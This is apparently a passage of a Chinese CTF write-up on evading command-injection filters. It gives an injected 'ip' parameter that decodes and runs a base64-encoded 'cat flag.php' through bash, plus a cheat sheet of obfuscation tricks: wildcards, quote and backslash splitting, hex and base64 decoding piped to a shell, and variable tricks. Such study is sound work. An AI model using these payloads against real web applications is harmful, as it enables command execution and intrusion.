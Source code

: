 将`cat flag.php`转为base64编码后进行绕过:
```
Y2F0IGZsYWcucGhw
```
进行绕过：
```sh
?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|bash
```

其他的类似绕过
```sh
cat fl*  用*匹配任意 
cat fla* 用*匹配任意
ca\t fla\g.php        反斜线绕过
cat fl''ag.php        两个单引号绕过
echo "Y2F0IGZsYWcucGhw" | base64 -d | bash      
//base64编码绕过(引号可以去掉)  |(管道符) 会把前一个命令的输出作为后一个命令的参数

echo "63617420666c61672e706870" | xxd -r -p | bash       
//hex编码绕过(引号可以去掉)

echo "63617420666c61672e706870" | xxd -r -p | sh     
//sh的效果和bash一样

cat fl[a]g.php       用[]匹配

a=fl;b=ag;cat $a$b          变量替换
cp fla{g.php,G}    把flag.php复制为flaG
ca${21}t a.txt     利用空变量  使用$*和$@，$x(x 代表 1-9),${x}(x>=10)(小于 10 也是可以的) 因为在没有传参的情况下，上面的特殊变量都是为空的 
```

常用的通配符如下：

![](./img/通配符.png)
